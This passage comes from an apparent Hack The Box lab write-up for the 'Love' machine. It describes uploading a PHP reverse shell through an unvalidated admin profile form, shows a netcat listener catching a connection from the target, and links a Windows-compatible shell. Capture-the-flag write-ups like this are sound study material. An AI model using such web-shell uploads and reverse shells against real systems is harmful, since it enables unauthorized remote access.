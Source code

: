 Looking around we find we can update the admin profile:

![love-admin](/assets/images/2021-07-31-23-11-29.png)

## Reverse Shell

Clicking the Update button, we can then upload a php reverse shell as there is no checking:

![love-shell](/assets/images/2021-07-31-23-13-04.png)

I tried the usual PenTestMonkey php shell but that didn't work:

```text
┌──(root💀kali)-[~/htb/love]
└─# nc -nlvp 1234                              
listening on [any] 1234 ...
connect to [10.10.15.5] from (UNKNOWN) [10.10.10.239] 61759
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

That's because uname is a Linux command and we have a Windows box here, so a quick Google found [this one](https://github.com/ivan-sincek/php-reverse-shell), which works with Windows:
